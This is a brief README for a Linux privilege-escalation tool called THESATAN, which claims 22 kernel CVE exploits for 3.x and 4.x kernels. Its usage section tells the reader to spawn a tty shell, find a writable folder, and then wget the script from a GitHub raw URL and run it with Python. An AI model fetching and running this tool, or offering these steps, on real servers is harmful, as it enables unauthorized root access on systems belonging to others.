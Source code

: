 ☣THESATAN - Automation Privilage Escalation for Linux.
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x only.
- Work with python2.7 / python3+ also gcc installed on the machine.

```
Usage:
- Spawn a tty shell in terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
**Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

- Python2.7
<sub>wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py \
python thesatan.py</sub>

- Python3+ 
<sub>wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py \
python3 thesatan.py</sub>

- Wait until THESATAN done.
```
